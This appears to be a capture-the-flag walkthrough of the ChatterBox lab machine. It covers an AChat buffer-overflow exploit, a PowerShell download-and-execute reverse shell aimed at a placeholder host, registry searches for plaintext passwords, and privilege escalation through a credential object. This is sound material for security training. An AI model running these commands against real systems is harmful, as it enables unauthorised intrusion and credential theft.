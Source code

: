 # ChatterBox - Walkthrough

## 🧗 Initial Foothold

### 🔎 1. Nmap Scanning
- Ran `nmap` **three times** to catch unusual services.
- Identified **AChat chat service** running on ports `9255` and `9256`.

### 💣 2. Exploit AChat Buffer Overflow
- Found exploit:
  [Exploit-DB 36025](https://www.exploit-db.com/exploits/36025)
- Adjusted the Python exploit to include a reverse shell:
  - Created shell with `msfvenom`
  - Injected payload using the `CMD` variable:
    ```powershell
    CMD="powershell \"IEX(New-Object Net.WebClient).downloadString('http://<YOUR_IP>:<PORT>/shell.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress <YOUR_IP> -Port <PORT>\""
    ```
- Ran the exploit using:
  ```bash
  python2 36025.py
  ```
- Reverse shell received.

---

## ⚙️ Privilege Escalation

### 🔍 1. Registry Enumeration
- Used this command to search for passwords in the registry:
  ```powershell
  reg query HKLM /f password /t REG_SZ /s
  ```
- If interesting results were found, queried the specific key:
  ```powershell
  reg query "HKEY\...fullpath"
  ```

### 🔐 2. Discovered Alfred's Password
- Used `reg query` output to recover a password.
- Suspected **Alfred = Administrator**, based on access to Desktop folder.

### 🛠️ 3. Creating Credential Object
```powershell
$cred = New-Object System.Management.Automation.PSCredential("Administrator", (ConvertTo-SecureString "AlfredsPassword" -AsPlainText -Force))
```

### 🧨 4. Triggering New Reverse Shell
- Used the credentials object to run reverse shell again:
```powershell
Start-Process -FilePath "powershell" -ArgumentList "IEX(New-Object Net.WebClient).downloadString('http://<YOUR_IP>:<PORT>/shell.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress <YOUR_IP> -Port <PORT>" -Credential $cred
```

---

## 🧠 Notes

- Be patient with Nmap — some services only show up intermittently.
- AChat is a classic buffer overflow example.
- Windows registry is gold for plaintext creds.
- `Start-Process` with `-Credential` lets you escalate with known passwords.
